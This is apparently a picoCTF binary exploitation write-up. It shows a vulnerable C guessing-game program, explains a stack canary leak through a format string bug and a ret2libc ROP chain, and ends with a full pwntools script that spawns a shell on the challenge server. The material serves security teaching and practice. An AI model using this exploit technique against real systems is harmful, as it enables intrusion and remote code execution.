



The binary can be downloaded here.
The source code of the binary is as shown below.
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#define BUFSIZE 512
long get_random() {
return rand;
}
int get_version() {
return 2;
}
int do_stuff() {
long ans = (get_random() % 4096) + 1;
int res = 0;
printf("What number would you like to guess?\n");
char guess[BUFSIZE];
fgets(guess, BUFSIZE, stdin);
long g = atol(guess);
if (!g) {
printf("That's not a valid number!\n");
} else {
if (g == ans) {
printf("Congrats! You win! Your prize is this print statement!\n\n");
res = 1;
} else {
printf("Nope!\n\n");
}
}
return res;
}
void win() {
char winner[BUFSIZE];
printf("New winner!\nName? ");
gets(winner);
printf("Congrats: ");
printf(winner);
printf("\n\n");
}
int main(int argc, char **argv){
setvbuf(stdout, NULL, _IONBF, 0);
// Set the gid to the effective gid
// this prevents /bin/sh from dropping the privileges
gid_t gid = getegid();
setresgid(gid, gid, gid);
int res;
printf("Welcome to my guessing game!\n");
printf("Version: %x\n\n", get_version());
while (1) {
res = do_stuff();
if (res) {
win();
}
}
return 0;
}
As you can see from the source code above, there is a buffer overflow vulnerability and a format string bug in win.
Running checksec, I noticed that PIE was not enabled and that the binary's target architecture was 32 bits. Additionally, a stack
canary was detected.

I disassembled win to see if it had a canary, and sure enough, it had one. Therefore, before I performed a buffer overflow
attack on win, I had to use the format string bug to leak the canary. Shown below is a diagram of the stack when
win is called.

After leaking the canary, I discovered that the binary had a few gadgets as shown below. So I wrote an exploit script which injected an
ROP chain that would leak the GOT entries of puts, printf, and gets.
I determined that the server was using libc6-i386_2.27-3ubuntu1.6_amd64.so by plugging the
leaked entries into libc.rip.

Since I now knew the version of libc the binary was running on, I could obtain the libc base, and moreover, the runtime
address of execve. I then constructed an ROP chain that called execve("/bin/sh", NULL, NULL).
The exploit code is as follows.
#!/usr/bin/env python3
from pwn import *
def ex():
# context.log_level = "debug"
# p = process("./vuln")
p = remote("shape-facility.picoctf.net", 61034)
e = ELF("./vuln")
libc = ELF("./libc6-i386_2.27-3ubuntu1.6_amd64.so")
win_addr = e.symbols["win"]
puts_plt = e.plt["puts"]
gets_got = e.got["gets"]
puts_got = e.got["puts"]
printf_got = e.got["printf"]
pop_ebx_ret = 0x08048451
pop_esi_edi_ebp_ret = 0x080488f9
# pause()
ans = 0
for i in range(-4098, 4098):
p.recvuntil(b"guess?\n")
p.sendline(f"{i:d}".encode("ascii"))
if b"Congrats" in p.recvline():
p.recvline()
ans = i
break
p.recvuntil(b"Name? ")
p.sendline(b"%135$p")
p.recvuntil(b": ")
canary = p32(int(p.recvline().strip(), 16))
print(f"{canary=}")
p.recvuntil(b"guess?\n")
p.sendline(f"{ans:d}".encode("ascii"))
p.recvuntil(b"Name? ")
# p.sendline(b"A"*512 + canary + b"B"*12
# + p32(puts_plt) + p32(pop_ebx_ret) + p32(gets_got)
# + p32(puts_plt) + p32(pop_ebx_ret) + p32(puts_got)
# + p32(puts_plt) + p32(pop_ebx_ret) + p32(printf_got)
# + p32(win_addr))
p.sendline(b"A"*512 + canary + b"B"*12
+ p32(puts_plt) + p32(pop_ebx_ret) + p32(gets_got) + p32(win_addr))
p.recvline()
p.recvline()
gets_got_entry = u32(p.recvline().strip()[0:4])
libc_base = gets_got_entry - libc.symbols["gets"]
execve_addr = libc_base + libc.symbols["execve"]
binsh = libc_base + list(libc.search(b"/bin/sh\x00"))[0]
print(f"{libc_base=:x}")
p.recvuntil(b"Name? ")
p.sendline(b"A"*512 + canary + b"B"*12
+ p32(execve_addr) + p32(pop_esi_edi_ebp_ret) + p32(binsh) + p32(0x0) + p32(0x0))
p.interactive()
if __name__ == "__main__": ex()